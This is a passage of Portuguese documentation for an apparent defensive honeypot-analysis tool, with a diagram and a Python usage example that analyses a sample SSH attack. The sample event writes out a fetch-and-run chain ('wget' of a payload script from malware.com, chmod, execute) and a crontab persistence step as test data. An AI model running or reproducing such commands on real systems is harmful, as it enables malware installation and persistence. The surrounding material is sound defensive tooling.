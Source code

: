 ```python
│  │ W1 │  │ W2 │  │ W3 │  │ W4 │        │
│  └─┬──┘  └─┬──┘  └─┬──┘  └─┬──┘        │
│    │       │       │       │            │
│    └───────┴───────┴───────┘            │
│              │                           │
│              ▼                           │
│    ┌──────────────────────┐             │
│    │  Forensic → Intel    │             │
│    │  → Attribution       │             │
│    │  → Classification    │             │
│    └──────────────────────┘             │
└─────────────────────────────────────────┘
```

---

## 5. EXEMPLOS DE USO

### 5.1 Análise Completa de Evento

```python
from candi import CANDICore, ThreatLevel

# Inicializar CANDI
candi = CANDICore()
await candi.start(num_workers=4)

# Evento capturado por honeypot
event = {
    'attack_id': 'ssh_attack_001',
    'honeypot_type': 'ssh',
    'source_ip': '185.86.148.10',  # Known APT28 IP
    'commands': [
        'wget http://malware.com/payload.sh',
        'chmod +x payload.sh',
        './payload.sh',
        'crontab -e'  # Persistence
    ]
}

# Analisar evento
result = await candi.analyze_honeypot_event(event)

print(f"Threat Level: {result.threat_level.name}")
print(f"Attribution: {result.attribution.attributed_actor}")
print(f"Confidence: {result.attribution.confidence:.1f}%")
print(f"IOCs: {result.iocs}")
print(f"TTPs: {result.ttps}")
print(f"HITL Required: {result.requires_hitl}")

if result.incident_id:
    print(f"Incident Created: {result.incident_id}")

# Output esperado:
# Threat Level: TARGETED
# Attribution: APT28
# Confidence: 72.5%
# IOCs: ['ip:185.86.148.10', 'domain:malware.com']
# TTPs: ['T1105', 'T1053']
# HITL Required: True
# Incident Created: INC-20251013-0001
```
